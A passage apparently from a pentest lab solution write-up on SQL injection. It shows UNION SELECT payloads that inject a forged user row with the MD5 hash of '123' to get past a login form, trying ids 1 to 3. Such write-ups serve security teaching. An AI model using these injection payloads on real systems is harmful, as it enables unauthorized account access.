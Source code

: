 <img src="https://github.com/pentest-khoa-02/Group1/blob/solution/solution/SQL%20Injection/images/27.png" width="666px">
</p>

*Delete the type email to enter other types more easily*

`202cb962ac59075b964b07152d234b70` is hash md5 of `123` so i enter password is **123**

Id 0 not found, i try other ids

```sql
oke' UNION SELECT '1','minhdz','minhdz@gmail.com','202cb962ac59075b964b07152d234b70'--
oke' UNION SELECT '2','minhdz','minhdz@gmail.com','202cb962ac59075b964b07152d234b70'--
oke' UNION SELECT '3','minhdz','minhdz@gmail.com','202cb962ac59075b964b07152d234b70'--
```

<p align="center">
<img src="https://github.com/pentest-khoa-02/Group1/blob/solution/solution/SQL%20Injection/images/28.png" width="666px">